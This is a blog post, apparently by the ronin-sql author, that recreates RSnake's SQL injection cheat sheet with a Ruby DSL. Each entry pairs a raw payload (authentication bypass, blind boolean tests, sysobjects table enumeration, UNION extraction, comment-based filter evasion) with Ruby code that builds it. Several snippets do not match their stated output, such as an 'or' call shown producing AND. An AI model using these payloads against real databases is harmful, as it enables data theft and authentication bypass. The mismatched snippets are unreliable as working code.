 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using ronin-sql 1.1.0
author: postmodern
tags:
 - ronin
 - sqli
 - rsnake
---
```


After the release of [ronin-sql] 1.0.0, I wondered if we could recreate
[RSnake's SQL Injection Cheat Sheet][1] using the new [Ronin::SQL]
Domain Specific Language (DSL). Let's see how far we can get.

Normal SQL Injection:

{% highlight sql %}
1 OR 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# => 1 OR 1=1
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight sql %}
1' OR '1'='1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { string(1) == string(1) }
puts sqli
# 1' OR '1'='1
{% endhighlight %}

Blind SQL Injection:

{% highlight sql %}
1 AND 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# 1 AND 1=1
{% endhighlight %}

Blind SQL Injection to attempt to locate `tablename` by brute-force
iteration through table name permutations:

{% highlight sql %}
1' AND 1=(SELECT COUNT(*) FROM tablenames); --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { select(count).from(:tablenames) == 1 }
puts sqli
# 1 AND (SELECT COUNT(*) FROM tablenames)=1
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight sql %}
1' AND non_existant_table = '1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { non_existant_table == '1' }
puts sqli
# 1' AND non_existant_table='1
{% endhighlight %}

Dumping usernames:

{% highlight sql %}
' OR username IS NOT NULL OR username = '
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { username.is_not(null) }.or { username == '' }
puts sqli
# 1' OR username IS NOT NULL OR username='
{% endhighlight %}

Enumerating through database table names:

{% highlight sql %}
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.and {
  ascii(
    lower(
      substring(
        select(:name).top(1).from(sysobjects).where { xtype == 'U' }, 1, 1
      )
    )
  ) > 116
}
puts sqli
# 1 AND ASCII(LOWER(SUBSTRING((SELECT name TOP 1 FROM sysobjects WHERE xtype='U'),1,1)))>116
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight sql %}
1 UNION ALL SELECT 1,2,3,4,5,6,name FROM sysObjects WHERE xtype = 'U' --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union_all {
  select(1,2,3,4,5,6,name).from(sysObjects).where { xtype == 'U' }
}
puts sqli.to_sql(:terminate => true)
# 1 UNION ALL (SELECT (1,2,3,4,5,6,name) FROM sysObjects WHERE xtype='U');--
{% endhighlight %}

Bypass filters using `/**/` instead of spaces:

{% highlight sql %}
1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union { select(1,2,3,4,id).from(users) }
puts sqli.to_sql(:space => '/**/')
# 1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

Not too shabby!

[1]: http://ha.ckers.org/sqlinjection/

[ronin-sql]: https://github.com/ronin-ruby/ronin-sql#readme
[Ronin::SQL]: http://ronin-ruby.github.com/docs/ronin-sql/Ronin/SQL.html
